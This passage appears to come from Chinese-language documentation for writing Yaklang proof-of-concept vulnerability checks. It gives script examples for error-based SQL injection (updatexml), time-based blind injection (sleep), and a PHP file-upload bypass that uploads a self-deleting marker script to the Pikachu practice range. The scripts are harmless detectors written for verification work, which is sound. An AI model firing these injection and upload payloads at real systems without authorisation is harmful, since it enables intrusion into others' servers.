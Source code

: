 **案例：有回显 - 报错注入**  
```
// 假设服务器 SQL 查询语句为：select username, password from users where username = '%s'，其中%s为用户可控，存在SQL注入
s = randstr(16)
username = codec.EscapeQueryUrl(f`1' and updatexml(1,concat(0x7e,md5('${s}'),0x7e,1,0x7e,2),1)-- `)
rsp, req = poc.HTTPEx(f`GET /error_sql?username=${username} HTTP/1.1
Host: www.vulnerable.com

`)~
body = rsp.GetBody()
if len(body) > 0 && codec.Md5(s) in body {
    dump("存在漏洞")
}
```  
  
**案例：无回显 - 延迟注入**  
```
// 假设服务器 SQL 查询语句为：select username, password from users where username = '%s'，其中%s为用户可控，存在SQL注入
// 假设已知一个存在的用户名kobe
username = codec.EscapeQueryUrl(f`kobe' and sleep(3)-- `)
rsp, req = poc.HTTPEx(f`GET /no_output_sql?username=${username} HTTP/1.1
Host: www.vulnerable.com

`)~
body = rsp.GetBody()
if rsp.GetDurationFloat() > 3 {
    dump("存在漏洞")
}
```  
  
  
**文件上传**  
  
对于此类漏洞，需要思考的是如何在没有危害的情况下验证漏洞的存在，因此一般在可能的情况下会考虑**计算输出+自我删除**的形式。  
  
**案例：PHP**  
```
// 这里以 pikachu 靶场的文件上传为例
s = randstr(16)
// 上传
rsp, req = poc.HTTPEx(f`POST /vul/unsafeupload/clientcheck.php HTTP/1.1
Host: 127.0.0.1:8765
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Referer: http://172.27.214.38:8765/vul/unsafeupload/clientcheck.php
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzO5eB8A7KMQZG4Ml
Content-Length: 38747

------WebKitFormBoundaryzO5eB8A7KMQZG4Ml
Content-Disposition: form-data; name="uploadfile"; filename="abc.php"
Content-Type: image/png

<?php
echo md5("${s}");
unlink(__FILE__);
?>
------WebKitFormBoundaryzO5eB8A7KMQZG4Ml
Content-Disposition: form-data; name="submit"

开始上传
------WebKitFormBoundaryzO5eB8A7KMQZG4Ml--`)~
```